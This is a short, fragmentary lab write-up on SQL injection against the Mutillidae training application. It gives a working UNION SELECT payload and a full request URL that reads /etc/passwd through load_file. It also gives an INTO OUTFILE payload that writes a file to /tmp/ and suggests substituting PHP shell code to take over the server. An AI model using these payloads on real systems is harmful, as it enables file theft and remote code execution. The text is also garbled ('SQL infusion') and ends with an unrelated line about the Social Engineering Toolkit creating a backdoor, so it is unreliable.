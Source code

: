 Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.203.1/mutillidae/index.php?page=user-info.php&username=thiru2%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
## OUTPUT :

![alt text](img/26.png)




the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).





## RESULT:
The Social Engineering Toolkit (SET) is used to create backdoor is  examined successfully
